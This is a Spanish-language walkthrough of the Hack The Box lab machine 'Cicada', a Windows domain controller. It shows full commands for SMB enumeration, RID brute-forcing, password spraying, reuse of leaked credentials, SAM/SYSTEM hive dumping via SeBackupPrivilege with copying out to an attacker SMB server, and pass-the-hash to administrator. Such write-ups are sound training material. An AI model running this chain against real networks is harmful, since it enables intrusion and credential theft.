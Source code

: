 ![Cicada](https://github.com/user-attachments/assets/eb28d3af-c5cc-4206-9579-0979abc20137)


Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.11.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250318103259](https://github.com/user-attachments/assets/ff9283af-c20a-43cc-8a8c-cecbde27b344)

Dado este output, podemos empezar a pensar que estamos ante un DC. No obstante, vamos a ver con exactitud qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.11.35 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,57500 -oN target -Pn``

![Pasted image 20250318103431](https://github.com/user-attachments/assets/d502e243-12a3-4a04-8077-1b59a06516f5)

De este output podemos extraer cositas, como que el dominio es cicada.htb y el nombre de la máquina es cicada-dc. 

Vamos a recolectar un poco más de información sobre la máquina.

``netexec smb 10.10.1.35``

![Pasted image 20250318104501](https://github.com/user-attachments/assets/a8e0a070-56a2-4df1-9b1a-367075bf0fb2)

Confirmamos la información que teníamos desde el output de nmap y que es un WS2022.

Podemos añadir esta información a nuestro /etc/hosts.

![Pasted image 20250318104605](https://github.com/user-attachments/assets/6c3b9a90-8c4d-4826-a323-49313230092b)

Probamos a enumerar los recursos disponibles por SMB para el usuario guest:

``netexec smb 10.10.11.35 -u 'guest' -p '' --shares``

![Pasted image 20250318104731](https://github.com/user-attachments/assets/03c031e0-65c8-4ce5-858e-e61d44754e0d)

Aparecen cosas interesantes y que no están por default, como el permiso de lectura para HR (HumanResources?).

Vamos a conectarnos por SMB para echarle un vistazo más a fondo.

``smbclient //10.10.11.35/HR -U 'guest'``

![Pasted image 20250318105030](https://github.com/user-attachments/assets/42cbe277-13f8-4e5f-ae39-6ce81f698f36)

Vemos que existe un archivo llamado "Notice from HR.txt". Nos traemos el archivo a la máquina atacante para analizar su contenido.

![Pasted image 20250318105403](https://github.com/user-attachments/assets/f888e9da-e7ab-4900-81e4-528be9ee49fb)

Podemos visualizar cositas interesantes. Parece un mensaje default para nuevas contrataciones en la compañía Cicada. Lo primero (y más importante) que menciona es la importancia de cambiar la contraseña default 'Cicada$M6Corpb*@Lp#nZp!8'. Sin embargo, no tenemos el usuario al que está haciendo referencia.

Dado que con el usuario guest podemos enumerar los archivos compartidos, vamos a probar a utilizar --rid-brute para enumerar usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute``
![Pasted image 20250318112623](https://github.com/user-attachments/assets/9b31db8e-a51a-48bb-81ce-186618c0f9eb)

Bien. Nos saca output. Lo que vamos a hacer es redirigirlo todo a un archivo para hacer un tratamiento de los datos para quedarnos sólo con los nombres de usuario y generar un diccionario de usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > smbusers.txt``

Una vez tenemos todo el output en un archivo, hacemos el tratamiento de datos.

``cat smbusers.txt | grep 'SidTypeUser'| cut -f2 -d '\' | cut -f1 -d '(' | cut -f1 -d ' ' > users.txt``

![Pasted image 20250318114113](https://github.com/user-attachments/assets/57633c2c-b1e5-448a-9a7e-041e965228e8)

Una vez tenemos el diccionario de usuarios, vamos a identificar si todos son usuarios válidos (que deberían):

``kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt``

![Pasted image 20250318114214](https://github.com/user-attachments/assets/a0f40542-614f-4b37-b74e-3602321686c4)

Genial. Los usuarios que tenemos son usuarios reales.

Ahora vamos a hacer uso de la técnica password spraying con la contraseña que hemos obtenido en el archivo compartido por SMB con los usuarios que tenemos:

``netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success``

![Pasted image 20250318122124](https://github.com/user-attachments/assets/7a771c02-c50c-4a13-9feb-2b89c4e74fc6)

Ojo, tenemos un [+] para el usuario michael.wrightson, por lo que tenemos credenciales válidas.

michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8 

Sin embargo, si lanzamos netexec para winrm vemos que no tenemos un [+], por lo que este usuario no forma parte del grupo Remote Management Users y no podemos conectarnos usando evil-winrm. Seguimos enumerando.

Si nos conectamos por RPC para enumerar un poquito más:

``rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35``

-> querydispinfo

![Pasted image 20250318130434](https://github.com/user-attachments/assets/44c9b0cc-02ef-4f6b-9c69-26e5cdded22b)

Muy interesante. La descripción del usuario david.orelious es:

``Just in case I forget my password is aRt$Lp#7t*VQ!3``

Tenemos una posible contraseña del usuario david.orelious. Vamos a validar esta credencial con netexec:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'``

![Pasted image 20250318130621](https://github.com/user-attachments/assets/d631704f-da47-42b1-b7a0-f5db56ac0c9b)


Son credenciales válidas, pero tampoco forma parte del grupo Remote Management Users (igual que antes, netexec para winrm no reporta pwn3d), por lo que seguimos sin poder conectarnos a la máquina víctima.

Sin embargo, si vemos lo que se está compartiendo en SMB para este usuario:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares``

![Pasted image 20250318130854](https://github.com/user-attachments/assets/edc69a88-6ec4-415d-8118-1da249755608)

El directorio DEV que se está compartiendo suena bastante interesante y tenemos permisos de lectura. Vamos a indagar.

``smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'``

![Pasted image 20250318131033](https://github.com/user-attachments/assets/90a8d5bc-4bdf-463a-bc8b-97a7ab5df06c)

Nos traemos a la máquina víctima ese Backup_script.ps1 y le echamos un vistazo:

![Pasted image 20250318132822](https://github.com/user-attachments/assets/21fc8717-35b1-422c-a831-190a8b499514)


Se encuentran claramente unas credenciales:
emily.oscars : Q!3@Lp#M6b*7t*Vt

Vamos a validarlas con netexec.

![Pasted image 20250318132949](https://github.com/user-attachments/assets/0167e75e-bd81-437a-941f-1d76e0539599)


Son credenciales válidas. Y si las probamos para winRM:

![Pasted image 20250318133030](https://github.com/user-attachments/assets/188d617a-f6fd-43aa-b46a-bc7f7b8c178f)

Bingo, tenemos Pwn3d!
Por fin un usuario que forma parte del grupo Remote Management Users y que nos permite conectarnos.

Nos conectamos con evilwin-rm:

``evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'``

![Pasted image 20250318133343](https://github.com/user-attachments/assets/063bfbb7-faa3-4440-9ce3-a42254495983)

Estamos dentro de la máquina víctima como el usuario emily.oscars.

Dentro de C:\Users\emily.oscars\Desktop encontramos la flag de usuario:

![Pasted image 20250318133546](https://github.com/user-attachments/assets/0883a5d5-96d9-4723-8001-c34a5f4fe676)



# PRIVESC

``whoami /priv``

![Pasted image 20250318133801](https://github.com/user-attachments/assets/c62fbc60-9a56-405d-b014-03d952af42da)

El usuario tiene el privilegio SeBackupPrivilege. Muy buenas noticias.

Nos creamos una carpeta temp en C:\

![Pasted image 20250318133829](https://github.com/user-attachments/assets/3b5fa189-4b81-4618-b2e0-df1103940481)

Para explotar este privilegio vamos a hacer una copia de SAM y SYSTEM que nos permitirá tener los hashes LM:NTLM de los demás usuarios.

``reg save hklm\sam c:\temp\sam``

``reg save hklm\system c:\temp\system``

![Pasted image 20250318133929](https://github.com/user-attachments/assets/cd2368d8-55e8-46bc-a160-20bcaf09e5c6)


Vamos a compartir ambos recursos con la máquina atacante, para ello:

- Abrimos smbserver en máquina atacante:
  
``impacket-smbserver -smb2support test .``

- Desde máquina víctima realizamos la copia de ambos recursos (sam y system) en el servidor SMB de la máquina atacante:
  
``copy sam \\10.10.14.16\test\sam``

``copy system \\10.10.14.16\test\system``

![Pasted image 20250318134115](https://github.com/user-attachments/assets/1adf0f5e-6114-40ec-ba06-a347e0f88740)


Una vez lo tenemos en máquina víctima, combinamos ambos archivos a través del uso de impacket-secretsdump:

``impacket-secretsdump -sam sam -system system LOCAL > sam.hashes``

Si observamos el contenido del archivo:

![Pasted image 20250318134748](https://github.com/user-attachments/assets/b1e0d5f8-0daf-4e02-8d82-5e28ddb67e6c)


Estupendo. Tenemos un posible hash NTLM del usuario Administrator. Vamos a validarlo vía netexec realizando pass the hash:

``netexec smb 10.10.11.35 -u Administrator -H ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318134823](https://github.com/user-attachments/assets/b7a48503-aae7-45eb-9106-08a53c40bbed)

Tenemos [+] y Pwn3d!, por lo que, no sólo son credenciales válidas, sino que podemos hacer uso directo de psexec para conectarnos a la máquina víctima:

``impacket-psexec administrator@10.10.11.35 -hashes ':2b87e7c93a3e8a0ea4a581937016f341'``

![Pasted image 20250318135407](https://github.com/user-attachments/assets/919b50ed-4635-45f5-89d3-493b9349da14)

Podemos recogemr la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250318135514](https://github.com/user-attachments/assets/ea0cfadd-332e-46f8-80ec-ee918deaece3)
